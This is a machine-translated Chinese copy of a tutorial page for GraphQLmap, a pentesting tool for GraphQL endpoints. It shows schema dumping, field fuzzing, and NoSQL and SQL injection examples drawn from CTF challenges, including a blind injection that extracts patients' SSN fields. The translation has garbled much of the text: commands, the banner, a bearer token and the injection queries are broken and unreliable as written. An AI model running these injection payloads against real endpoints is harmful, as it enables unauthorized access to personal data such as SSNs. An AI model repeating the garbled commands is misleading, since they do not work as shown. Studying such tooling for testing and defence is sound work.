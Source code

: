 # GraphQLmap:一个脚本引擎，用于与 Graphql 端点进行交互，以进行测试

> 原文：<https://kalilinuxtutorials.com/graphqlmap/>

[![GraphQLmap : A Scripting Engine To Interact With A Graphql Endpoint For Pentesting Purposes](img//74d530d3431a0a8030d557f804cb5c2f.png "GraphQLmap : A Scripting Engine To Interact With A Graphql Endpoint For Pentesting Purposes")](https://1.bp.blogspot.com/-4v_cTJe-EzA/YLsoikHtN4I/AAAAAAAAJUw/-h590jMpa-g0JWjww52qnCY7g321vNFTQCLcBGAsYHQ/s744/GraphQLmap%25281%2529.png)

GraphQLmap 是一个脚本引擎，用于与 graphql 端点进行交互以进行测试。

**安装**

**$ git 克隆 https://github.com/swisskyrepo/GraphQLmap
$ python graphqlmap . py
*_*
/*| |/_ |*_ _*_ | |*| '/*`| '_ | '_ | | | | | | '_`*\/*` | '*\ | | | |(*| | |*)| | | | |*| | | |*| _*| _*， *|。 /|*| |*| _ _*| _ _ _ _ _ _ _ |*| |*| |*| _*， *|。_*/
| | | |
| |*| |*|
作者:Swissky 版本:1.0
用法:graphql map . py[-h][-u URL][-v[VERBOSITY]][–METHOD]][–HEADERS[HEADERS]]
可选参数:
-h，–help 显示此帮助消息并退出
-u 要查询的 URL:example.com/graphql?query={}
-v[VERBOSITY**

**特征和示例**

示例基于 HIP2019 的几个 CTF 挑战。

**连接到 graphql 端点**

**python 3 graph qlmap . py-u https://your hostname . com/graph QL-v–method post–headers " { " authorization ":" bearer eyjhbgcioijihuzi 1 niisinr 5 CCI 6 ikpvcj 9 . eyj 0 zxh 0 ijoibm 8 vjcmv 0 cyzjlid 1 Qin 0 . jqdoesc-R4 ltos 9 h0 和 7bIq-M8AGYjK92x4K3hcBA6o"} "**

**转储一个 GraphQL 模式**

使用`dump_new`转储 GraphQL 模式，该函数将自动使用找到的字段填充“自动完成”。

**GraphQLmap>dump _ new
= = = = = = = = = = = = = =[SCHEMA]= = = = = = = = = = = = = =
例如:name【Type】:arg(Type！)
查询
医生[]:邮箱(字符串！)，
医生【医生】:
患者【患者】:
患者[]: id (ID！)，
allrendezvous[Rendezvous]:
Rendezvous[]:ID(ID！)，
医生
id[ID]:
名[字符串]:
姓[字符串]:
专科[字符串]:
患者[无]:
集合点[无]:
邮箱[字符串]:
密码[字符串]:
[…]**

**与 GraphQL 端点进行交互**

编写一个 GraphQL 请求并执行它。

**GraphQLmap>{医生(选项:1，搜索:" { \ "姓氏\": { \"$regex\": \ "管理\ " } } " {名字姓氏 id}}
{
"数据":{
"医生":[
{
"名字": "管理"，
" id ":" 5d 089 C5 1d cab 2d 0032 FDD 08 "，
"姓氏":"管理"
} 【T9**

**GraphQL 字段模糊化**

使用`GRAPHQL_INCREMENT`和`GRAPHQL_CHARSET`模糊参数。

GraphQLmap > {doctors(options: 1，搜索:" { \ "姓氏\": { \"$regex\": \"AdmiGRAPHQL _ CHARSET \ " } " { first name last name id } }
[+]查询:(45) {doctors(options: 1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi！\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi $ \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi % \ " }){名字姓氏 id}}
[+]查询:(45){医生(选项:查询 搜索:" { \ "姓氏\": { \"$regex\": \"Admi * \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi+\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi，\ " } } " {名字姓氏 \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi/\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi 0 \ " }){名字姓氏 id}}
[+]查询:(45){医生\ " } } " { first name last name id } }
[+]Query:(206){ doctors(options:1，search:" { \ " last name \ ":{ \ " $ regex \ ":\ " Admin \ " } } " { first name last name id } }

**诺舒利注射液**

在`**nosqli**`函数的查询中使用`**BLIND_PLACEHOLDER**`。

**GraphQLmap > nosqli
查询>{医生(选项:" {\"\"patients.ssn\":1} "，搜索:" { \ " patients . SSN \ ":{ \ " $ regex \ ":\"^blind_placeholder\"}，\ "姓氏\":\"Admin\ "，\ " first name \ ":\ " admin \ " } " { id，firstName}}
检查>5d 089 C5 1d cab 2d 0032 FDD 08d
charset>0123456789 abcdef**

**SQL 注入**

**graphql map>PostgreSQL Li
graphql map>mysqli
graphql map>mssqli**

[**Download**](https://github.com/swisskyrepo/GraphQLmap)